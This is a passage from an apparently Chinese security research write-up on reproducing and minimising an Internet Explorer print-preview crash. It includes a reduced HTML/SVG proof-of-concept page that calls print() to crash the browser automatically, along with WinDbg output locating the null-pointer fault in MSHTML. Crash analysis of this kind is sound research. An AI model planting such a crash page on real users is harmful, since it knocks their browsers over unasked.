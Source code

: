 取得窗口的DOM如下：

![p3](http://drops.javaweb.org/uploads/images/f266a5f63821a067d79f2771f073382afe413d2a.jpg)

将其输出到文件，自行添上`</BODY></HTML>`即为完整的内容。不过需要记得的是Layout等元素只在打印预览中有效，所以单独提取出来崩溃不了也不要太疑惑，这里只是为了方便了解预览中最终的DOM分布情况而已。

接下来，让我们复现崩溃吧。打开map.yahoo.co.jp，访问出现崩溃的代码，右键预览。只不过这次我们使用缓存文件的方式来精简代码。预览后，从%TEMP%下复制走所有新生成的HTM文件，然后调节打印预览的比例为666%。在确定仍然可以崩溃之后，让我们开始删除无用数据，记下异常偏移e9b102（在我的机器上是这个数字，因为有些崩溃在精简代码时可能变成其他的崩溃，所以最好记下偏移地址，以免中途不知道从什么位置产生了新问题）。多次精简之后，我们留下了下列代码：

```
<!DOCTYPE HTML>
<HTML><HEAD>
</HEAD> 
<BODY>
<DIV style="left: -5000px; top: -5000px; width: 10000px; height: 10000px; text-align: justify; position: absolute; z-index: 0;"><svg 
xmlns="http://www.w3.org/2000/svg" style="position: relative;" viewBox="0 0 10000 10000" 
width="10000" height="10000" />
</DIV>
</BODY></HTML>

```

而且精简到这一步就可以发现，只要发起打印预览，IE就会直接崩溃。所以，为了让IE自动触发崩溃，我们手写一下调用print();即可。

```
<!DOCTYPE HTML>
<HTML><HEAD>
</HEAD> 
<BODY>
<DIV style="left: -5000px; top: -5000px; width: 10000px; height: 10000px; text-align: justify; position: absolute; z-index: 0;"><svg 
xmlns="http://www.w3.org/2000/svg" style="position: relative;" viewBox="0 0 10000 10000" 
width="10000" height="10000" />
</DIV>
<script>print();</script>
</BODY></HTML>

```

跟随调试可以发现，崩溃位置维持不变：

```
0:040> g
(24c8.2960): Access violation - code c0000005 (!!! second chance !!!)
eax=00000000 ebx=00000000 ecx=00000000 edx=00000000 esi=045c9220 edi=0a68eeac
eip=6537b102 esp=0a68eea4 ebp=0a68eeb8 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
MSHTML!CDispParentNode::ComputeVisibleBoundsOnDirtySVGSubtree+0x16:
6537b102 8b33            mov     esi,dword ptr [ebx]  ds:002b:00000000=????????

```

接下来让我们看看打印预览窗口的DOM结构。因为DIV的STYLE属性是触发崩溃的关键条件之一，但是我们又想拿到预览窗口的DOM，所以我们得做一些改动，先手动删除部分STYLE，然后预览，这时，便可使用我们之前的程序抓出DOM。
